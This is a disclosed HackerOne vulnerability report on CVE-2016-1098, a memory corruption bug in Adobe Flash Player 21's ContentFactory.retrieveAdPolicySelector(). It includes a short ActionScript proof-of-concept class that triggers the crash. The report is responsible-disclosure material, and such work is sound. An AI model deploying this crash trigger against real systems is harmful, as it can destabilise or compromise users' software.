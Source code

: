 # Adobe Flash Player ContentFactory class Memory Corruption Vulnerability

## Report Details
- **Report ID**: 138516
- **URL**: https://hackerone.com/reports/138516
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-05-13T01:10:41.223Z
- **Disclosed**: 2019-11-12T09:42:44.307Z

## Reporter
- **Username**: hhj4ck
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
I. Summary
Adobe Flash Player is prone to a vulnerability which leads to memory corruption because of improper validation of ContentFactory.retrieveAdPolicySelector().
------------------------------------------------------------------
II. Description
Adobe Flash is a multimedia and software platform used for authoring of vector graphics, animation, games and rich Internet applications (RIAs) that can be viewed, played and executed in Adobe Flash Player. 

Normally, retrieveAdPolicySelector() should validates its parameter and returns error in AS3 level if anything goes wrong.
If retrieveAdPolicySelector() function is invoked directly with invalid parameter, some inner class instance will be absent, which will cause a memory crash.

POC Source Code:

package
{
	import com.adobe.tvsdk.mediacore.ContentFactory;
	import com.adobe.tvsdk.mediacore.MediaPlayerItem;
	import com.adobe.tvsdk.mediacore.PSDK;	
	import flash.display.Sprite;
	
	public class poc extends Sprite
	{
		public function poc()
		{
			var ps:PSDK = PSDK.pSDK;
			var mt:MediaPlayerItem;
			var obj:ContentFactory = ps.createDefaultContentFactory();
			obj.retrieveAdPolicySelector(mt);
		}
	}
}
------------------------------------------------------------------
III. Impact
Memory Corruption
------------------------------------------------------------------
IV. Affected
Adobe Flash Player 21.
------------------------------------------------------------------
V. Credit
Wen Guanxing from Pangu LAB is credited for this vulnerability.

It has been assigned as CVE-2016-1098 by Adobe:
https://helpx.adobe.com/security/products/flash-player/apsb16-15.html

## Attachments
- poc.swf
